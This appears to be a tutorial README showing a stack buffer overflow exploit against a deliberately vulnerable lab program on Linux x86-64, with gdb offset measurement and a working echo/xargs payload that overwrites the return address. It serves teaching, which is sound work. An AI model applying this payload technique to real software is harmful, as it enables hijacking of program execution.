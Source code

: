 # Simple example of stack smashing exploit on Linux x86-64

Tested on Debian 11. Here are the steps to reproduce the exploit:

1. First we compile the program without the stack protector, and we create a
   static binary to have `security_critical_function` at an easily identifiable
   location:
```
gcc -fno-stack-protector hackme.c -g -o hackme -static
```

   Keep in mind that each time you modify and recompile the program, the
   memory layout will change and you have to redo steps 2 and onwards.

2. We need to measure the distance in bytes between the start of `local_buffer`
   and the return address of `preprocess_input` on the stack. We use gdb and put
   a breakpoint on `preprocess_input`. Once the breakpoint is reached, we
   can print the address of the local buffer I wish to overflow:
```
   (gdb) p &local_buffer
   $1 = (char (*)[16]) 0x7fffffffe220
```

   That's an address on the stack and the return address is stored
   somewhere above. To find where the return address is we first look for
   its value:
```
   (gdb) info frame
   [...] saved rip = 0x401d0c
```

   The return address is `0x401d0c`! Now let's find it on the stack by
   printing the stack content, starting from the stack pointer (RSP register)
```
   (gdb) x/wx $rsp
   0x7fffffffe210:	0x004a90a0  // nope
   (gdb) x/wx $rsp+8
   0x7fffffffe218:	0xffffe651  // nope
   (gdb) x/wx $rsp+16
   0x7fffffffe220:	0x00000000  // nope
   (gdb) x/wx $rsp+24
   0x7fffffffe228:	0x00400488  // nope
   (gdb) x/wx $rsp+32
   0x7fffffffe230:	0xffffe250  // nope
   (gdb) x/wx $rsp+40
   0x7fffffffe238:	0x00401d0c  // found it!
```

   So the offset between the start of the buffer we want to overflow and
   the return address is:
   `0x7fffffffe238 - 0x7fffffffe220 = 0x18` (i.e. 24 bytes)
   Conclusion: there are 24 bytes between `local_buffer` and the return address

3. Next we need to craft our payload, it should be consituted of 24 bytes
   of padding, followed by the value we want to overwrite the return address
   with, i.e. the address of `security_critical_function`. We can find it
   easily:
```
   nm hackme | grep security_critical_function
```

   In my case it is at `0x401c8d`:
```
   0000000000401c8d T security_critical_function
```

   So my payload will be: [24 bytes of padding][0x401c8d]

4. We cannot inject bytes directly from the command line arguments, as what
   we put there are characters that get encoded with ascii code in memory,
   so we use `echo -e` to generate bytes than we feed these as the command
   line parameter to our target using `xargs`:

```
   echo -e "\x11\x11\x11\x11\x11\x11\x11\x11\x11\x11\x11\x11\x11\x11\x11\x11\x11\x11\x11\x11\x11\x11\x11\x11\x8d\x1c\x40\x00\x00\x00\x00\x00" | xargs --null -t -n1 ./hackme
```

   Notice how we have 24 bytes of garbage (`\x11`) and then the address of
   `security_critical_function` that will overwrite the return address:
   `\x8d\x1c\x40\x00\x00\x00\x00\x00`
